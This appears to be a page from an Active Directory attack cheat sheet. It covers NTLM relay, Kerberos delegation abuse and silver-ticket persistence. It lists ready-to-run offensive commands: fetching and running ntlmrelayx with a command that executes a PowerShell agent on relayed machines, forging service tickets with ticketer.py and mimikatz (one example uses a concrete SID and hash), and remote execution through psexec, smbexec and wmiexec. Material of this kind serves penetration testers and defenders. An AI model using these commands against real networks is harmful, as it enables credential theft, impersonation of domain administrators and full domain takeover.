         -   **NTLM Replay**

            -   wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/ntlmrelayx.py

            -   ntlmrelayx.py -smb2support -tf targets.txt

            -   ntlmrelayx.py -smb2support -tf targets.txt -c {Powershell Agent \> %TEMP%\\execute.bat & %COMSPEC% /Q /c %TEMP%\\execute.bat & del %TEMP%\\execute.bat REM \'} LLMNR & NetBios Poisoning

-   **Domain priv Escalation**

    -   **Kerberos Constrained delegation**

        -   Delegation is the act of Service impersonating User to access another Service  

        -   if a user or computer is allowed for \"Constrained Delegation\" it will be able to impersonate any user to access some services in a computer. Then, if you compromise the hash of this user/computer you will be able to impersonate any user (even domain admins) to access some services.

    -   **Kerberos Unconstrained delegation**

        -    If you find any Computer object with the attribute [ADS\_UF\_TRUSTED\_FOR\_DELEGATION] and you have domain privileges in the computer, you will be able to dump TGTs from memory of every users that logins onto the computer. So, if a Domain Admin logins onto the computer, you will be able to dump his TGT and impersonate him using Pass the Ticket

        -   The purpose of constrained delegation is to limit access of a delegation machine/account to specific services while impersonating users, unlike unconstrained delegation that allows delegation to all services.

-   **Domain Persistence**

    -   **Silver ticket**

        -   **Lmpacket**

            -   **To generate the TGS with NTLM**

            -   python ticketer.py -nthash \<ntlm\_hash\> -domain-sid \<domain\_sid\> -domain \<domain\_name\> -spn \<service\_spn\> \<user\_name\>

            -   **To generate the TGS with AES key**

            -   python ticketer.py -aesKey \<aes\_key\> -domain-sid \<domain\_sid\> -domain \<domain\_name\> -spn \<service\_spn\> \<user\_name\>

            -   **Set the ticket for impacket useexport KRB5CCNAME=\<TGS\_ccache\_file\>**

            -   **Execute remote commands with any of the following by using the TGT**

            -   python psexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

            -   python smbexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

            -   python wmiexec.py \<domain\_name\>/\<user\_name\>@\<remote\_hostname\> -k -no-pass

        -   **Make a silver ticket with mimikatz**

            -   kerberos::golden /user:administrator /domain:jnkfo.lab /sid:S-1-5-21-3178339118-3033626349-2532976716 /target:win10.jnkfo.lab /rc4:1ad9c160bd7ab9cb4b7c890c96862305 /service:cifs

            -   kerberos::golden /domain:\<domain\_name\>/sid:\<domain\_sid\> /aes{128/256}:\<krbtgt\_aes\_key\> /user:\<user\_name\> /service:\<service\_name\> /target:\<service\_machine\_hostname\>
